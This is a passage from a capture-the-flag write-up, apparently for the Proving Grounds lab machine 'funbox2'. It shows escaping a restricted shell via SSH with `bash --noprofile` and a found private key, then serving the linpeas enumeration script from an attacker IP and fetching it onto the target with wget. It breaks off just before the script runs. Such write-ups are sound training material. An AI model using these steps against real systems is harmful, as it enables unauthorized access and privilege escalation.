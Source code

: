 We can escape the restriction is we use the `-t "bash --noprofile"` option while logging in via SSH.

```
$ ssh -i tom/id_rsa tom@192.168.165.107 -t "bash --noprofile" 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$ 
```

```
tom@funbox2:~$ cd tmp
tom@funbox2:~/tmp$ 
```

### Privilege Escalation

#### Enumerating Privilege Escalation vectors using Linpeas[​](https://writeups-kunull.vercel.app/Proving%20Grounds/Play/Easy/SunsetNoontide#enumerating-privilege-escalation-vectors-using-linpeas "Direct link to Enumerating Privilege Escalation vectors using Linpeas")

In order to find a privilege escalation vector we have to use the [Linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240804-31b931f7) utility.

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
tom@funbox2:~/tmp$ wget http://192.168.45.234:8000/linpeas.sh
--2024-08-11 06:30:45--  http://192.168.45.234:8000/linpeas.sh
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860335 (840K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[========================================================================================================================================>] 840.17K  1.53MB/s    in 0.5s    

2024-08-11 06:30:45 (1.53 MB/s) - ‘linpeas.sh’ saved [860335/860335]
```

Let's make the file executable.

```
tom@funbox2:~/tmp$ chmod +x linpeas.sh 
```

Now we can run the `./linpeas.sh` script.

```

```
